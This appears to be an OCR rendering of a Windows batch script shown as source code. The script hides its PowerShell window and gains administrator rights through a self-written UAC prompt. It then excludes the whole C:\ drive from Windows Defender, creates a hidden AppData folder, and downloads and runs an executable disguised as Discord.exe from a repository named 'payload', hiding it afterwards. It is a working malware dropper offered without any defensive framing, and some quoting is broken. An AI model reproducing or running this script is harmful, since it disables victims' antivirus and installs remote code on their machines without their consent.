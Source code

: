 :--------------------------------------
powershell -window hidden -command ""
:--------------------------------------
    IF "%PROCESSOR_ARCHITECTURE%" EQU "amd64" (
>nul 2>&1 "%SYSTEMROOT%\SysWOW64\cacls.exe" "%SYSTEMROOT%\SysWOW64\config\system"
) ELSE (
>nul 2>&1 "%SYSTEMROOT%\system32\cacls.exe" "%SYSTEMROOT%\system32\config\system"
)
:--------------------------------------
if '%errorlevel%' NEQ '0' (
    goto UACPrompt
) else ( goto gotAdmin )
:--------------------------------------
:UACPrompt
    echo Set UAC = CreateObject^("Shell.Application"^) > "%temp%\getadmin.vbs"
    set params= %*
    echo UAC.ShellExecute "cmd.exe", "/c ""%~s0"" %params:"=""%", "", "runas", 1 >> "%temp%\getadmin.vbs
:--------------------------------------
    "%temp%\getadmin.vbs"
    del "%temp%\getadmin.vbs"
    exit /B
:--------------------------------------
:gotAdmin
    pushd "%CD%"
    CD /D "%~dp0
:--------------------------------------
powershell.exe -command "Add-MpPreference -ExclusionPath "C:\
:--------------------------------------
cd "C:\Users\%USERNAME%\AppData\Local"
mkdir "Anon"
attrib +h "Anon" /s /d
cd C:\Users\%USERNAME%\AppData\Local\Anon" 
:--------------------------------------
Powershell -Command "Invoke-Webrequest 'https://github.com/anonymous-osif/payload/raw/main/Discord.exe' -OutFile Discord.exe"
start Discord.exe
attrib +h "C:\Users\%USERNAME%\AppData\Local\Anon\Discord.exe" /s /d
:--------------------------------------
